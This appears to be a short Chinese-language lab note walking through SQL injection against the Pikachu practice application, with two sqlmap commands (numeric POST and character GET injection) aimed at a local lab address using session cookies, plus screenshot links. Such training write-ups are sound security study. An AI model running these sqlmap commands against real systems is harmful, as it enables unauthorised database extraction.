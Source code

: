 # SQL注入

## 数字型注入(POST)

直接sqlmap梭

```cmd
python3 sqlmap.py -u "http://192.168.10.52/pkq/vul/sqli/sqli_id.php" --cookie "ocKey=660cdd6ca5dfc10527d75f6ec6c469c8; PHPSESSID=b19evnjk8vp4qmjhk3fj8ka6v4" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" -p "id" --batch
```

![](..\img\Pikachu\2022-06-27-15-01-32.png)

## 字符型注入(GET)

```
python3 sqlmap.py -u "http://192.168.10.52/pkq/vul/sqli/sqli_str.php?name=vince%27+and+1%3D%272%23&submit=%E6%9F%A5%E8%AF%A2" --cookie "ocKey=660cdd6ca5dfc10527d75f6ec6c469c8; PHPSESSID=b19evnjk8vp4qmjhk3fj8ka6v4" --thread 8 --tech U --dbms mysql
```

![](..\img\Pikachu\2022-06-27-16-07-55.png)
